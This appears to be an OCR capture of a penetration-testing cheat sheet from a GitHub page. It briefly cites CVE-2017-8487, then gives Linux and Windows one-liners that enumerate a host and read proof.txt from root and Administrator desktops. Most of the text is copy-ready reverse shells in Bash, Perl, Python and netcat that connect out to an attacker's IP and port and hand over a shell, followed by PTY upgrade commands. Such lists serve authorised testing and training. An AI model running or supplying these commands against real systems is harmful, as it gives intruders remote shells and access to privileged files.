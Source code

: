 CVE-2017-8487	allows an attacker to execute code when a victim opens a specially crafted file - remote code execution
PROOFS
Linux
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
Windows
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
REVERSE SHELL
Amazing tool for shell generation
# Download
git clone https://github.com/ShutdownRepo/shellerator

# Install requirements
pip3 install --user -r requirements.txt

# Executable from anywhere
sudo cp shellrator.py /bin/shellrator
Bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
Perl
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
More reverse shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Interactive shell
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash
echo os.system('/bin/bash')

# Sh
/bin/bash -i
